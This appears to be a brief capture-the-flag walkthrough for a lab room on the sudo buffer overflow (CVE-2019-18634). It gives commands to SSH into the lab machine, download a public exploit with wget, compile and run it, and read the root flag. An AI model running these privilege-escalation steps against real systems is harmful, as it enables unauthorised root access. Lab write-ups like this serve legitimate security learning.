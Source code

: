 Walkthrough about Sudo Buffer Overflow

February 7, 2022

------------------------------------------


First we are going to deploy the machine. 

After reading all of the contents in the room, we now know that we need to ssh into the machine or we need to connect to it.

There are actually steps that was given by the author of the room, therefore we will just use these commands.

First we will connect to the machine by the port 4444 and ssh service. 

```
ssh -p 4444 tryhackme@10.10.105.118
```
Then as the commands mention above we will use the 'wget' command to obtain a certain file which is the exploit itself.

```
wget https://github.com/saleemrashid/sudo-cve-2019-18634/blob/master/exploit.c
gcc -o exploit exploit.c
ls
```

The first command above will specify the file that we will get from the github and the second one is that we are going to compile the file 'exploit.c'

After that we are just listing the files in the current directory.

Then we will execute the file. 

```
./exploit
```

After that we did get the root user and we can now 'cat' the root.txt